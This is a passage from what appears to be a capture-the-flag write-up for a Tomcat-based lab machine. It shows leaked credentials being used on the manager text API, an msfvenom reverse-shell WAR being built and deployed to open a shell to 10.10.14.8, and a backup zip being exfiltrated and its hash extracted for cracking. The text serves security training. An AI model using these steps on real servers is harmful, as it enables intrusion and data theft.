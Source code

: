 The creds do _not_ work for the `/manager/html` endpoint, however. But it _does_ have role `manager-script`, which allows this:

```console
$ curl -u 'tomcat:$3cureP4s5w0rd123!' http://t:8080/manager/text/list
OK - Listed applications for virtual host [localhost]
/:running:0:ROOT
/examples:running:0:/usr/share/tomcat9-examples/examples
/host-manager:running:0:/usr/share/tomcat9-admin/host-manager
/manager:running:0:/usr/share/tomcat9-admin/manager
/docs:running:0:/usr/share/tomcat9-docs/docs
```

It can be used to deploy a malicious WAR file.

```console
$ msfvenom -p java/shell_reverse_tcp lhost=10.10.14.8 lport=443 -f war -o hax.war
Payload size: 13030 bytes
Final size of war file: 13030 bytes
Saved as: hax.war

$ curl -u 'tomcat:$3cureP4s5w0rd123!' http://t:8080/manager/text/deploy?path=/hax --upload-file hax.war
OK - Deployed application at context path [/hax]
```

And, it works:

```console
listening on [any] 443 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.194] 45100
id
uid=997(tomcat) gid=997(tomcat) groups=997(tomcat)
```

## Privilege Escalation

Here's how I was able to escalate privileges for full control of the system.

With access as `tomcat`, there's a Zip file visible in the `/var/www/html/files` directory:

```console
tomcat@tabby:/var/www/html$ ls files/
16162020_backup.zip  archive  revoked_certs  statement
```

After exfil'ing the archive to my machine, I see it's password-protected. I use `zip2john` to grab the hash, and crack it with `hashcat`.

```console
$ cat tabby.ziphash
$pkzip$5*1*1*0*8*24*7db5*dd84cfff4c26e855919708e34b3a32adc4d5c1a0f2a24b1e59be93f3641b254fde4da84c*1*0*8*24*6a8b*32010e3d24c744ea56561bbf91c0d4e22f9a300fcf01562f6fcf5c986924e5a6f6138334*1*0*0*24*5d46*ccf7b799809a3d3c12abb83063af3c6dd538521379c8d744cd195945926884341a9c4f74*1*0*8*24*5935*f422c178c96c8537b1297ae19ab6b91f497252d0a4efe86b3264ee48b099ed6dd54811ff*2*0*72*7b*5c67f19e*1b1f*4f*8*72*5a7a*ca5fafc4738500a9b5a41c17d7ee193634e3f8e483b6795e898581d0fe5198d16fe5332ea7d4a299e95ebfff6b9f955427563773b68eaee312d2bb841eecd6b9cc70a7597226c7a8724b0fcd43e4d0183f0ad47c14bf0268c1113ff57e11fc2e74d72a8d30f3590adc3393dddac6dcb11bfd*$/pkzip$::foo.zip:var/www/html/news.php, var/www/html/favicon.ico, var/www/html/Readme.txt, var/www/html/logo.png, var/www/html/index.php:foo.zip
```
